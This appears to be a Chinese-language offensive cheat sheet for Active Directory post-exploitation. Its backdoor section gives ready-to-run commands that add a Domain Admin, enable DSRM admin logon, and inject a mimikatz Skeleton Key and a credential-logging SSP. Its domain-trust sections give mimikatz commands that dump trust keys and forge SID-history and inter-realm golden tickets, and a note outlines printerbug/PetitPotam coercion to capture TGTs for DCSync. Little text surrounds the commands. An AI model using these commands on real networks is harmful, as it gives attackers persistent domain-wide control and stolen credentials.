 

## 后门

~~~ABAP
net group "domain admins" myuser /add /domain

Golden ticket（黄金票据）

Silver Ticket（白银票据）

DSRM 后门：
PowerShell New-ItemProperty “HKLM:\System\CurrentControlSet\Control\Lsa\” -Name “DsrmAdminLogonBehavior” -Value 2 -PropertyType DWORD

Skeleton Key：
mimikatz "privilege::debug" "misc::skeleton" "exit"

自定义 SSP DLL：
mimikatz "privilege::debug" "misc::memssp" "exit"
C:\Windows\System32\kiwissp.log
~~~



## 域信任关系

### 子域攻击父域 - SID History版跨域黄金票据

~~~ABAP
Get-NetGroup -Domain <domain> -GroupName "Enterprise Admins" -FullData|select objectsid

mimikatz lsadump::trust

kerberos::golden /user:Administrator /krbtgt:<HASH_KRBTGT> /domain:<domain> /sid:<user_sid> /sids:<RootDomainSID-519> /ptt
~~~

### 利用域信任密钥获取目标域的权限 - 信任票据

~~~ABAP
"lsadump::trust /patch"
"lsadump::lsa /patch"

"kerberos::golden /user:Administrator /domain:<domain> /sid:  
<domain_SID> /rc4:<trust_key> /service:krbtgt /target:<target_domain> /ticket:
<golden_ticket_path>"
~~~



### 攻击其它林

~~~
利用ptintbug或petipotam漏洞使其它林的DC主动连接到本林的一台无约束委派主机，同时抓取发送过来的TGT，然后即可将它用于dcsync攻击
~~~

